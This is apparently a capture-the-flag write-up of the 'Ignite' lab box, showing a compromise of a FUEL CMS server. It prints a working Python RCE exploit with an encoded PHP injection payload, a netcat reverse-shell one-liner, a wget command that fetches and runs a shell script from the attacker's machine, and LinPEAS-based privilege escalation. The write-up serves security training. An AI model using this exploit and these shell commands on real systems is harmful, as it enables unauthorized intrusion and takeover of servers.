 # Ignite

### A new start-up has a few issues with their web server.

### Root the box! Designed and created by DarkStar7471, built by Paradox.

## Recognition

### NMAP

> nmap -sCV -A -O 10.10.226.192

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-23 15:17 EDT
Nmap scan report for 10.10.226.192
Host is up (0.77s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/23%OT=80%CT=1%CU=42858%PV=Y%DS=4%DC=T%G=Y%TM=5F932C
OS:B0%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10A%TI=Z%CI=I%II=I%TS=A)SE
OS:Q(SP=106%GCD=1%ISR=10B%TI=Z%CI=I%TS=A)OPS(O1=M508ST11NW6%O2=M508ST11NW6%
OS:O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=68DF%W2
OS:=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNS
OS:NW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%
OS:DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%
OS:O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%
OS:W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%
OS:RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 4 hops

TRACEROUTE (using port 554/tcp)
HOP RTT       ADDRESS
1   472.70 ms 10.4.0.1
2   ... 3
4   794.13 ms 10.10.226.192

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 123.72 seconds

```

### Site

![image](https://user-images.githubusercontent.com/53917092/97047048-bb5d0500-154e-11eb-9d20-36f4418aec03.png)

![image](https://user-images.githubusercontent.com/53917092/97047124-d92a6a00-154e-11eb-890b-a2e6fc7d34ca.png)

#### Visiting /fuel

we have a login page

![image](https://user-images.githubusercontent.com/53917092/97047273-155dca80-154f-11eb-84ce-b39629091079.png)


So I searched about this system (fuelcms) on the exploitdb site and found this:

![image](https://user-images.githubusercontent.com/53917092/97047803-e3993380-154f-11eb-95d2-cf25f25b5bac.png)

I will use the RCE Exploit because other else requires authentication and we don't have any credentials

the exploit be like

```

import requests
import urllib

url = raw_input('target (http://IP:PORT) : ')
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
	xxxx = raw_input('cmd:')
	burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
	r = requests.get(burp0_url)

	html = "<!DOCTYPE html>"
	htmlcharset = r.text.find(html)

	begin = r.text[0:20]
	dup = find_nth_overlapping(r.text,begin,2)

	print r.text[0:dup]
```

and it uses python2

### Exploiting

![image](https://user-images.githubusercontent.com/53917092/97048985-4e973a00-1551-11eb-99fa-5cbcd09522a4.png)

## getting a reverse shell

using the RCE we check that the machine has WGET command

![image](https://user-images.githubusercontent.com/53917092/97049144-91591200-1551-11eb-869f-77e1d309f88e.png)

so I will use this to download and run a reverse shell file

so I created a .sh file on my machine that contains it:

> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f

and to access the machine, I used a python server

> nc -lvp PORT

> python3 -m http.server 80

![image](https://user-images.githubusercontent.com/53917092/97050038-0c6ef800-1553-11eb-8d9e-7a41cee2fbdf.png)

now I will download the file and run it in the box using RCE

> wget IP/revshell.sh -O /tmp/revshell.sh; sh /tmp/revshell.sh

![image](https://user-images.githubusercontent.com/53917092/97050364-97e88900-1553-11eb-8070-f63957ed97fd.png)

![image](https://user-images.githubusercontent.com/53917092/97050414-af277680-1553-11eb-9c0a-82eb8efaedfa.png)

it works

### getting a tty

checking if we have python

> whereis python

![image](https://user-images.githubusercontent.com/53917092/97050672-2d841880-1554-11eb-8c26-34b715bb5ed8.png)

we have python2 and python3, and we will use it

> python -c 'import pty;pty.spawn("/bin/bash")'

![image](https://user-images.githubusercontent.com/53917092/97050816-6de39680-1554-11eb-884c-304bdb41cec8.png)

### User Flag

![image](https://user-images.githubusercontent.com/53917092/97051978-8f458200-1556-11eb-9655-5c6aef004e72.png)

### Privilege escalation

again using wget, we will use LinPeas to enumarate possibles privilege escalation vectors

downloading

again we will download on our machine, upload a server and then download in the box through our machine

in our machine:

> wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh

> chmod +x linpeas.sh

> python3 -m http.server 80

in the box

> cd /tmp

> wget IP:/linpeas.sh

giving the permissions

> chmod +x linpeas.sh

running

> ./linpeas.sh > output.txt

reading output

> cat output.txt

### Privilege Escalation

![image](https://user-images.githubusercontent.com/53917092/97056470-768d9a00-155f-11eb-8d24-a72a0fcd1d02.png)

checking out this database

![image](https://user-images.githubusercontent.com/53917092/97056626-d08e5f80-155f-11eb-9b0f-9815f51646ee.png)

![image](https://user-images.githubusercontent.com/53917092/97056655-e1d76c00-155f-11eb-9ff1-a64e376d405c.png)

trying using this password

![image](https://user-images.githubusercontent.com/53917092/97056752-177c5500-1560-11eb-84bf-9bac6799a1f9.png)

### User flag

![image](https://user-images.githubusercontent.com/53917092/97056937-8659ae00-1560-11eb-803b-ccae406fa5ab.png)

that's it, thanks for reading